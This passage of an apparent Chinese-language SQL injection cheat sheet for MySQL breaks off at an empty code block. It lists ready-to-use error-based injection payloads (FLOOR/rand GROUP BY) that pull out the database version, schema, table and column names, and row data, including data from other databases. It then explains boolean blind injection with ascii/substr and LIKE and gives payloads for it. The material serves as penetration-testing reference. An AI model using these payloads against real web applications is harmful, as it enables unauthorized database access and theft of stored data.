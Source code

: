 下面使用的函数组合生成一个查询，MySQL编译器接受该查询，但在运行时出错。然后返回错误，但它计算并包括子查询（由于双击），从而将我们的注入结果返回到页面。增加第一个LIMIT以循环浏览数据库信息。

#### 检索数据库版本：
```sql
1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(version(),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--
```
#### 检索数据库名称：
```sql
1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT schema_name FROM information_schema.schemata LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)--
```
#### 检索表名：
```sql
1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)--
```
#### 检索列名：
```sql
1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)--
```
#### 检索数据：
```sql
1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT column1 FROM table1 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--
```
#### 从其他数据库检索数据：
```sql
1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT column1 FROM database2.table1 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--
```
### Inferential

当没有返回任何数据或错误消息时，可以使用时间延迟或真/假响应来检索数据库信息。请注意，自动化工具，如[sqlmap](http://sqlmap.org/)大大加快了这个过程。

#### 布尔

当应用程序返回不同的结果时，会使用这种类型的提取，这取决于我们注入的SQL查询的计算结果是true还是false。如果我们使用[ASCII](http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_ascii)函数（[此处](http://www.flprisktran.wpengine.com/blog/wp-content/uploads/2013/03/ascii_table.jpg)为表）将要检索的数据库信息中的每个单独字符转换为其十进制表示，我们可以使用大于、小于和等于符号创建true或false条件。然后，我们可以使用[SUBSTRING](http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_substring-index)函数循环各个字符，并使用LIMIT函数循环数据库信息。

#### 测试是否存在漏洞。此查询将显示原始页面：
```sql
1 AND 1=1
```
#### 虽然此查询应返回不同的页面：
```sql
1 AND 1=2
```
#### 检索版本：
```sql
1 AND (ascii(substr((SELECT version()),1,1))) > 52--
```
在上下文中检索版本的更好方法是使用 [LIKE](http://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html#operator_like)功能：
```sql
1 AND (SELECT version()) LIKE "5%"--
```
#### 检索数据库：
```sql
```